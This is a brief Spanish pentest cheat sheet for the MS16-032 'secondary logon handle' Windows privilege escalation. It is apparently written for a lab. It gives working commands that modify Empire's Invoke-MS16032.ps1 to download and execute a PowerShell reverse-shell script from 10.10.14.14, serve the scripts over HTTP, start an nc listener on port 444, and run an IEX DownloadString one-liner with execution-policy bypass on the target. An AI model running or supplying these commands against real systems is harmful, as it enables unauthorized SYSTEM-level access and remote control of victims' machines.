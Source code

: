 ```yaml
---
title: secondary logon handle
category: win privesc
order: 1
---
```



[WPE-11 - Secondary Logon Handle](https://pentestlab.blog/2017/04/07/secondary-logon-handle/)


usando el de empire [https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1]

## | modificamos invoke-ms160932.ps1 y le agregamos al final:
```
Invoke-MS16032 -Command "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/Invoke-PowerShellTcp.ps1');;Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 444"
```
## | levantamos un server http que tenga  Invoke-PowershellTcp.ps1 y invoke-ms16032.ps1
```
python -m SimpleHTTPServer 80
```
## | levantamos un listener  
```
nc -nlvp 444
```

## | en target:
```
C:> %SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -nop -ep bypass -c  "iex(New-Object Net.Webclient).downloadString('http://10.10.14.14/invoke-ms16032.ps1')"
```
